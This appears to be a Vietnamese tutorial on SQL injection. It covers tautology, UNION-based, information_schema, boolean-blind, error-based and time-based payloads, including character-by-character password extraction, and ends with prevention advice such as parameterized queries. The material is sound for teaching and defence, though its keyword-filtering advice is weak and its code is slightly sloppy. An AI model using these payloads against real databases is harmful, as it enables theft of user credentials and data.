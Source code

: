 # SQL INJECTION
### 1.SQL Injection là gì?
+ SQL Injection là một kỹ thuật tấn công cho phép kẻ tấn công chèn mã SQL vào dữ liệu gửi đến máy chủ.
+ Cuối cùng được thực thi mã trên máy chủ cơ sở dữ liệu
### 2.Nguyên nhân chính của lỗ hổng SQL Injection là gì?
+ Do dữ liệu đầu vào từ người dùng không được kiểm tra kỹ lưỡng
+ Sử dụng các câu lệnh SQL động,thao tác nối dữ liệu người dùng với mã lệnh SQL gốc
### 3.Hậu quả của SQL Injection
+ Làm lộ dữ liệu của database
+ Xóa đi dữ liệu nhạy cảm quan trọng của hệ thống
+ Thay đổi dữ liệu nhạy cảm của hệ thống
+ Có thể kiểm soát máy chủ cơ sở dữ liệu và thực thi lệnh theo ý muốn
### 4.Các dạng tấn công SQL Injection:
#### 1.Retrieving hidden data: 
##### Có thể sửa câu truy vấn để trả về kết quả bổ sung
Ví dụ : input đầu vào là @query = 'john'
Ở đây câu truy vấn sẽ SELECT đến bảng users để lấy dữ liệu có username = 'john'
```Mysql
SELECT * FROM users WHERE username = @query;
```
Nhưng ở đây chúng ta không biết trong bảng users có những username nào.Vì thế chúng ta cần sửa lại input đầu vào để câu truy vấn luôn đúng.@query = 'john' or 1 = 1 --  
```MySQL
SELECT * FROM users WHERE username = 'john' or 1 = 1 -- ;
```
Kết quả trả về sẽ là tất cả dữ liệu của bảng users
#### 2.Retrieving data from other database tables: 
##### Kiểu tấn công này liên quan đến sử dụng UNION để kết hợp 2 hay nhiều câu lệnh SELECT.
Để câu truy vấn UNION hoạt động thì phải đáp ứng được 2 yêu cầu:

+ Các câu truy vấn riêng phải cùng có số cột.
+ Các kiểu dữ liệu trong mỗi cột phải tương thích với nhau.

Ví dụ : input đầu vào là @query = '123'
```MySQL
SELECT name,type FROM category WHERE id = @query;
```
Ở đây mình muốn lấy username,password từ bảng `users`,mình cần check trước là số lượng cột ở câu truy vấn trước.@query có thể:
```MySQL
'123' UNION SELECT NULL,NULL--
'123' UNION SELECT NULL,NULL,NULL--
'123' UNION SELECT NULL,NULL,NULL,NULL--
etc.
```
Ở đây mình dùng `NULL` vì nó có thể chuyển đổi thành mọi kiểu dữ liệu.Mình sẽ thử lần lượt các câu query cho đến khi server không báo lỗi.
```MySQL
SELECT name,type FROM category WHERE id = '123' UNION SELECT NULL,NULL--;
```
Bây giờ mình cần kiểm tra dữ liệu của từng cột.@query có thể:
```MySQL
'123' UNION SELECT 'x',NULL--
'123' UNION SELECT NULL,'x'--
'123' UNION SELECT 'x','y'--
etc.
```
Sau khi xác định được kiểu dữ liệu thì bây giờ mình cần truy vấn lấy dữ liệu ở bảng `users`
```MySQL
SELECT name,type FROM category WHERE id = '123' UNION SELECT username,password FROM users--;
```
#### 3.Examining the database:
##### Kiểu tấn công này sẽ lấy được phiên bản và cấu trúc cơ sở dữ liệu
Truy vấn đến `information_schema.tables` để liệt kê các bảng trong cơ sở dữ liệu
```MySQL
SELECT * FROM information_schema.tables
```
Sau đó chúng ta có thể truy vấn `information_schema.columns`để xem các cột dữ liệu của chúng
```MySQL
SELECT * FROM information_schema.columns WHERE table_name='users'
```
Cuối cùng ta có thể truy vẫn đến từng giá trị của bảng
```MySQL
SELECT user_abcd,pasword_efgh FROM users
```
Mình thấy hay kết hợp với câu truy vấn `UNION`
#### 4.Blind SQL Injection:
##### Kiểu tấn công này sẽ không trả về kết quả của câu truy vấn đưa vào
###### a. Response trả về giữa câu query Boolean là khác nhau
Ví dụ:
```MySQL
SELECT * FROM users WHERE username=@query;
-- Nếu câu truy vấn đúng sẽ in ra giao diện "successfully"
-- Ngược lại sẽ không in gì
```
Bây giờ mình thử xâm nhập:
```MySQL
SELECT * FROM users WHERE username='admin';
-- hiện thị "successfully"
SELECT * FROM users WHERE username='admin' AND 1 = 2;
-- không hiện thị
SELECT * FROM users WHERE username='admin' AND 1=1;
-- hiện thị "successfully"
```
Gỉa sử mình biết trong cơ sở dữ liệu có bảng `users` và có username = 'admin',mình cần tìm ra password.
Ban đầu mình cần tìm ra độ dài của password @length = 1:
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select 'pwd' from users where username = 'admin' AND LENGTH(password)>@length)='pwd';
-- hiện thị "successfully"
```
Mình cần tăng @length đến khi nào không hiện thị `successfully`,giả sử length =10 bây giờ mình cần tìm password bằng cách cắt và so sánh từng kí tự 1.
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select SUBSTRING(password,1,1) from users where username = 'admin')='a';
-- không hiện thị
-- Chỗ này mình cần thay đổi giá trị 'a' đến khi hiện thị
```
Mình dùng `Bruteforce` để gửi các payload.Ở đây có 2 payload là vị trí của từng ký tự và payload để so sánh (a,b) 
```MySQL
SELECT * FROM users WHERE username='admin' 
AND (select SUBSTRING(password,$a$,1) from users where username = 'admin')='$b$';
```
Chạy xong sẽ tìm được password!
###### b.Error based: Khác với dạng trên,thì ở dạng này thì response trả về giữa các câu query Boolean không khác nhau.Nhưng mà nó trả về các exception,message lỗi từ câu lệnh SQL:
**MYSQL**
Ví dụ:
```MySQL
select * from users where username = 'admin' and (select case when (1=1) then 1/0 else 's' end)='s';
-- > điều kiện 1 = 1 đúng thì câu này sẽ thực hiện 1/0 sẽ gây ra lỗi chia cho số 0
select * from users where username = 'admin' and (select case when (1=2) then 1/0 else 's' end)='s';
-- > điều kện 1 = 2 là sai thì câu lệnh sau AND sẽ trả về true    
```
Sau đó chúng ta có thể truy vết dữ liệu như ở dạng a ở trên.
##### c.Time-based: gửi truy vấn đến database làm cho database đợi(vài giây) trước khi có thể hoạt động:
Cách chạy thời gian trễ cho từng database
![img](https://scontent.xx.fbcdn.net/v/t1.15752-9/329032973_3491653274396858_6283571348762962612_n.png?_nc_cat=108&ccb=1-7&_nc_sid=aee45a&_nc_ohc=wieAw4ChtbAAX9UsWaM&_nc_oc=AQn6HIN5BxM2LCpAmznCGP-rqAabZSj_Xk0CaO3z-li9cLk7Xb9VsX2ZfHsOzINxQhxOPxAYmblvAKZxxq8bsDm1&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTfBlETBpzedGQy5Si28ieZgiFidTfMM-f5PekpChKLiw&oe=640E4E89)
Ví dụ :
**MYSQL**
```MySQL
SELECT * FROM app.user where id =1 and case when(true) then sleep(5) else sleep(0) end;
``` 
![img](https://scontent.xx.fbcdn.net/v/t1.15752-9/330429557_698290495104032_2516872502378872048_n.png?_nc_cat=103&ccb=1-7&_nc_sid=aee45a&_nc_ohc=0QVs8XkUDysAX9HLuw9&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdT1H3chendAiKeLqahKYPjrPL1Dy68fld0sn2aObxvXiw&oe=640E99FE)
Dạng này kết hợp với các câu truy vấn Boolean để truy vết dữ liệu
#### 5.Out of band SQL Injection:
+ Kẻ tấn công sẽ tạo ra câu lệnh SQL,lệnh có thể kích hoạt hệ thống cơ sở dữ liệu để tạo kết nối với máy chủ bên ngoài mà kẻ tấn công kiểm soát

### 5.Cách phòng chống SQL Injection:
+ **Lọc dữ liệu từ người dùng:** Ta sử dụng filter để lọc các ký tự đặc biệt(;') hoặc các từ khóa(UNION,SELECT)
+ **Không hiện thị exception,message lỗi:** Hacker có thể dự vào message lỗi để tìm ra cấu trúc dữ liệu
+ **Mã hóa dữ liệu trong database:** Điều này làm cho hacker tìm được,những khó để sử dụng
+ **Tham số hóa truy vấn:** Cấu trúc của câu truy vấn và truyền các tham số giá trị được tách biệt
Ví dụ:
**MYSQL**
Truy vấn cách thông thường:
```MySQL
    SELECT * FROM Users WHERE Username = ' + username + ' AND Password = ' + password + ';
    -- > Ở đây người hacker có thể nhập username = admin' or 1=1; -- để lấy hết thông tin của người dùng
```
Nếu sử dụng tham số hóa:
```MySQl
    sqlQuery = SELECT * FROM Users WHERE Username =? AND Password =?';
    parameters.add("Username", username)
    parameters.add("Password", password)
```
Ở đây người hacker có thể nhập username = admin" or 1=1; -- và password = 123456
Khi truy vấn nó sẽ hiểu là sẽ truy vấn đến Username có value là admin" or 1=1; -- và Password = 123456












